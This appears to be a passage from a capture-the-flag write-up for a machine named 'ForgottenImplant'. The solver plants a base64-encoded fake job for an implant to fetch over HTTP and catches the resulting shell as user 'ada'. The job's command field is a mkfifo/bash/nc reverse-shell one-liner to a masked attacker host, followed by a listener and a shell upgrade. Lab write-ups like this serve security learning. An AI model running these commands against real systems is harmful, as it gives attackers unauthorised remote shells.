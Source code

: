 <img width="1359" height="170" alt="image" src="https://github.com/user-attachments/assets/23bbf18b-f500-47d3-8a39-da717b1eb078" />

<br>
<br>

<h2>get-job</h2>

```bash
:~/ForgottenImplant# mkdir get-job
```

```bash
:~/ForgottenImplant# echo '{"job_id": 1, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1|nc xx.xxx.xx.xx xxxx >/tmp/f"}' | base64 > get-job/ImxhdGVzdCI=
```

<img width="1357" height="189" alt="image" src="https://github.com/user-attachments/assets/686026c4-9eb0-4321-a496-5dcbb09f6fab" />

<br>
<br>
<br>


```bash
:~/ForgottenImplant# echo '{"job_id": 1, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1|nc xx.xxx.xx.xx 1234 >/tmp/f"}' | base64 > get-job/ImxhdGVzdCI=
```

```bash
:~/ForgottenImplant# python3 -m http.server 81
...
xx.xxx.xx.xxx - - [08/Sep/2025 xx:xx:xx] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
```

<br>
<h2>ada</h2>

```bash
:~/ForgottenImplant# nc -nlvp 1234
...
ada@...:~$ 
```

```bash
ada@...:~$  python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null
</bash')" || /usr/bin/script -qc /bin/bash /dev/null
```

```bash
ada@...:~$ pwd
pwd
/home/ada
```

```bash
ada@...:~$ id
id
uid=1001(ada) gid=1001(ada) groups=1001(ada)
```
